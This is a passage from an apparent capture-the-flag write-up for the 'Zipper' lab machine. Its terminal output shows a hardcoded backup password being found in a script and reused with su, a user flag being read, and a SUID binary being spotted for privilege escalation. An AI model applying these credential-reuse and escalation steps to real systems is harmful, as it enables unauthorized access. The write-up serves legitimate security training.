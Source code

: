 
We still can't read user.txt though:
```
cat: user.txt: Permission denied
zabbix@zipper:/home/zapper$
```

But we find a password inside the `backup.sh` script:
```
zabbix@zipper:/home/zapper/utils$ ls
backup.sh  zabbix-service
zabbix@zipper:/home/zapper/utils$ cat backup.sh
#!/bin/bash
#
# Quick script to backup all utilities in this folder to /backups
#
/usr/bin/7z a /backups/zapper_backup-$(/bin/date +%F).7z -pZippityDoDah /home/zapper/utils/* &>/dev/null
```

We can `su` to `zapper` using the `ZippityDoDah` password:
```
echo $?zabbix@zipper:/home/zapper/utils$ su zapper
su zapper
Password: ZippityDoDah


              Welcome to:
███████╗██╗██████╗ ██████╗ ███████╗██████╗
╚══███╔╝██║██╔══██╗██╔══██╗██╔════╝██╔══██╗
  ███╔╝ ██║██████╔╝██████╔╝█████╗  ██████╔╝
 ███╔╝  ██║██╔═══╝ ██╔═══╝ ██╔══╝  ██╔══██╗
███████╗██║██║     ██║     ███████╗██║  ██║
╚══════╝╚═╝╚═╝     ╚═╝     ╚══════╝╚═╝  ╚═╝

[0] Packages Need To Be Updated
[>] Backups:



zapper@zipper:~/utils$ cd ..
cd ..
zapper@zipper:~$ cat user.txt
cat user.txt
aa29e9<redacted>
```

### Priv esc

There's an interesting SUID file in the `utils` directory: `zabbix-service`
```
zapper@zipper:~/utils$ ls -l
ls -l
total 12
-rwxr-xr-x 1 zapper zapper  194 Sep  8 13:12 backup.sh
-rwsr-sr-x 1 root   root   7556 Sep  8 13:05 zabbix-service
```
